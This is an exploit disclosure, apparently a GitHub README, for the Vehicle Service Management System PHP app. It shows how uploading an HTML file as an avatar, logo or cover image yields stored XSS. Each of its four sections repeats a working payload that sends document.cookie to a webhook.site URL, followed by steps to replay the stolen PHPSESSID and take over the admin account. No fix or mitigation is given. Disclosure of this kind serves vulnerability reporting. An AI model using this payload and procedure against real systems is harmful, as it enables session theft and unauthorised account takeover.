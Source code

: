# Vehicle-Service-Management-System-Multiple-Cookie-Stealing-Leads-to-Full-Account-Takeover
Vehicle Service Management System - 'Multiple' Cookie Stealing Leads to Full Account Takeover

### Exploit Title: Vehicle Service Management System - 'Multiple' Cookie Stealing Leads to Full Account Takeover
### Date: 28/12/2021
### Exploit Author: P.L.Sanu
### Exploit Author Website: https://www.plsanu.com
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/14972/vehicle-service-management-system-php-free-source-code.html
### Version: <= 1.0
### Tested on: Windows 10
### CVE : 
### Google Dork: N/A
### Reference: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-cookie-stealing-leads-to-full-account-takeover/
- https://github.com/plsanu/Vehicle-Service-Management-System-Multiple-Cookie-Stealing-Leads-to-Full-Account-Takeover

## 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In My Account Section enter all the required details and browse the html file in Avatar.
7. Click on update button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

## 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Create New User Section enter all the required details and browse the html file in Avatar.
7. Click on Save button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

## 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in System Logo.
7. Click on update button.
8. Open the System Logo image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

## 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in Website Cover.
7. Click on update button.
8. Open the Website Cover image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.
